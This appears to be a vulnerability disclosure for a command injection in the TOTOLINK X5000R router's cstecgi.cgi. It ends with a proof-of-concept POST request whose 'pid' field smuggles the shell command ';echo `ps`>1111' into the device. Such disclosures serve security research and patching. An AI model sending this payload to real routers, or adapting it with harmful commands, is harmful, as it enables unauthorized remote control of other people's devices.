



### Overview

- Vendor : TOTOLINK
- Product : X5000R
- Version : CS_C8344R_X5000R_IP04433_MT7621MT7915_SPI_16M256M_V9.1.0cu.2415_B20250515_ALL.web
- Firmware download address : https://www.totolink.net/data/upload/20250515/9ef4ceaaae8d9c1ac3e26e15af8d97b0.web

### Vulnerability details

A vulnerability was determined in TOTOLINK X5000R V9.1.0cu.2415_B20250515. This impacts the function sub_410C34 of the file cstecgi.cgi. This manipulation of the argument pid causes command injection. The attack is possible to be carried out remotely. The exploit has been publicly disclosed and may be utilized.






### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 97
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.2
Referer: http://192.168.0.2/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"pid":";echo `ps`>1111","topicurl":"disconnectVPN","token":"0583d4dd5c1le5ce78b46b32c49ld783"}
```

